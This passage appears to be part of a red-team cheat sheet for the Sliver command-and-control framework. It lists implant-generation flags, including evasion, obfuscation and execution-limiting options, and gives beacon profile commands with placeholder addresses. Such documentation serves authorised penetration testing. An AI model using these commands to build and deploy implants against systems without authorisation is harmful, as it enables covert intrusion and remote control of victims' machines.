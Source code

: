 ```
  -N, --name               string    implant name
  -p, --named-pipe         string    named-pipe connection strings
  -o, --os                 string    operating system (default: windows)
  -P, --poll-timeout       int       long poll request timeout (default: 360)
  -j, --reconnect          int       attempt to reconnect every n second(s) (default: 60)
  -R, --run-at-load                  run the implant entrypoint from DllMain/Constructor (shared library only)
  -S, --seconds            int       beacon interval seconds (default: 60)
  -l, --skip-symbols                 skip symbol obfuscation
  -Z, --strategy           string    specify a connection strategy (r = random, rd = random domain, s = sequential)
  -T, --tcp-comms          int       wg c2 comms port (default: 8888)
  -i, --tcp-pivot          string    tcp-pivot connection strings
  -t, --timeout            int       command timeout in seconds (default: 60)
  -g, --wg                 string    wg connection strings
```

#### 4.1.3.2 - Usage

* Syntax

```
sliver > profiles new beacon -m <IP>:<PORT> -S 5 -J 10 -l -a <architecture> -o <platform> -f <format> <profile_name>

sliver > profiles generate <profile>
```

## 4.2 - Sessions

### 4.2.1 - Help Menu

```
sliver > generate -h

Usage:
======
  generate [flags]

Flags:
======
  -a, --arch               string    cpu architecture (default: amd64)
  -c, --canary             string    canary domain(s)
  -d, --debug                        enable debug features
  -G, --disable-sgn                  disable shikata ga nai shellcode encoder
  -n, --dns                string    dns connection strings
  -e, --evasion                      enable evasion features (e.g. overwrite user space hooks)
  -E, --external-builder             use an external builder
  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
  -h, --help                         display help
  -b, --http               string    http(s) connection strings
  -X, --key-exchange       int       wg key-exchange port (default: 1337)
  -w, --limit-datetime     string    limit execution to before datetime
  -x, --limit-domainjoined           limit execution to domain joined machines
  -F, --limit-fileexists   string    limit execution to hosts with this file in the filesystem
  -z, --limit-hostname     string    limit execution to specified hostname
  -L, --limit-locale       string    limit execution to hosts that match this locale
  -y, --limit-username     string    limit execution to specified username
  -k, --max-errors         int       max number of connection errors (default: 1000)
  -m, --mtls               string    mtls connection strings
  -N, --name               string    agent name
  -p, --named-pipe         string    named-pipe connection strings
```